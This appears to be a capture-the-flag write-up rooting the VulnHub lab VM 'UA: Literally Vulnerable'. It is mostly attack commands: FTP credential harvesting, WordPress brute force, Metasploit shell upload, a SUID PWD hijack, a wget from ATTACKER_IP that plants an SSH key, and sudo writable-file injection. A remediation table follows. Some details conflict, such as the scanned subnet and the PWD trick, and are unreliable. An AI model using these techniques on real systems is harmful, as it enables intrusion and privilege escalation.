




# UA: Literally Vulnerable — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.103 (host-only) |
| **Hostname** | literally.vulnerable |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Root Flag** | `/root/root.txt` |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/ua-literally-vulnerable,407/) |

## Attack Summary

nmap → FTP anon (password list) → non-standard port 65535 WordPress (WPScan brute) → wp_admin_shell_upload → SUID binary PATH hijack (doe→john) → SSH key install → sudo /var/www/html/test.html (www-data writable) → root

## Methodology

1. Full port scan — finds FTP anon and Apache on port 65535
2. FTP: download `backupPasswords` wordlist
3. Directory brute force finds `/phpcms/` WordPress on port 65535
4. WPScan enumerate users, brute force with backupPasswords
5. Metasploit `wp_admin_shell_upload` → www-data shell
6. SUID binary `itseasy` abuses `pwd` without absolute path → shell as john
7. john: sudo allows running a www-data-writable file as root → inject `/bin/bash`

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.56.0/24
echo "192.168.1.103 literally.vulnerable" >> /etc/hosts
nmap -p- -A 192.168.1.103
```

Finds: 21 (FTP, anonymous), 22 (SSH), 80 (Nginx/WordPress), **65535** (Apache).


---

## Step 2: FTP Anonymous — Password List

```bash
ftp 192.168.1.103
# Login: anonymous / <blank>
ftp> ls
ftp> get backupPasswords
ftp> bye
cat backupPasswords
# Password list for brute force
```

---

## Step 3: WordPress on Port 65535

```bash
dirb http://192.168.1.103:65535/ /usr/share/wordlists/dirb/big.txt
# Found: /phpcms/

# Enumerate users
wpscan --url http://192.168.1.103:65535/phpcms/ --enumerate u
# Users: notadmin, maybeadmin

# Brute force with backupPasswords
wpscan --url http://192.168.1.103:65535/phpcms/ \
    -U notadmin,maybeadmin \
    -P backupPasswords
```



---

## Step 4: WordPress Shell Upload (Metasploit)

```bash
msfconsole -q
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS 192.168.1.103
set RPORT 65535
set TARGETURI /phpcms
set USERNAME notadmin
set PASSWORD <cracked_password>
exploit
# Meterpreter as www-data
shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```



---

## Step 5: SUID Binary PATH Hijack (www-data → john)

```bash
find / -perm -u=s -type f 2>/dev/null
# Found: /home/doe/itseasy (SUID, owned by john)

cd /home/doe
./itseasy
# Runs 'pwd' without absolute path

# Hijack via PWD environment variable
export PWD=$(echo "/bin/bash")   # or craft a fake 'pwd' binary
# Shell spawns as john
```



---

## Step 6: john → root via sudo writable file

```bash
# Install SSH key for persistence as john
ssh-keygen -t rsa -f /tmp/id_rsa -N ""
# On www-data: start HTTP server
python -m SimpleHTTPServer 8000
# On john's session:
mkdir -p /home/john/.ssh
wget http://ATTACKER_IP:8000/id_rsa.pub -O /home/john/.ssh/authorized_keys
ssh john@192.168.1.103

# Check john's password in hidden file
cat ~/.local/share/tmpFiles/myPassword
echo "<base64>" | base64 -d

# Check sudo rights
sudo -l
# (root) NOPASSWD: /var/www/html/test.html

# www-data can write to that path — inject a shell
echo "/bin/bash" > /var/www/html/test.html
chmod 777 /var/www/html/test.html
# As john:
sudo /var/www/html/test.html
# root shell
cat /root/root.txt
```



---

## Lessons Learned

1. **Non-standard ports** often run software with weak configurations; always scan all ports
2. **FTP anonymous access** exposing credential files is a critical misconfiguration
3. **SUID binaries calling system tools without absolute paths** are trivially exploitable via PATH/PWD hijacking
4. **sudo NOPASSWD on user-writable files** effectively grants unconditional root to anyone who can write that file

## Remediation

| Vulnerability | Fix |
|---|---|
| FTP anonymous with sensitive files | Disable anonymous FTP; place no credentials in FTP-accessible directories |
| WordPress brute-forceable login | Enforce account lockout; use strong passwords; add 2FA |
| SUID binary PATH abuse | Use absolute paths in SUID binaries; audit all SUID programs |
| sudo writable file | Never set NOPASSWD on a file that other users can modify |
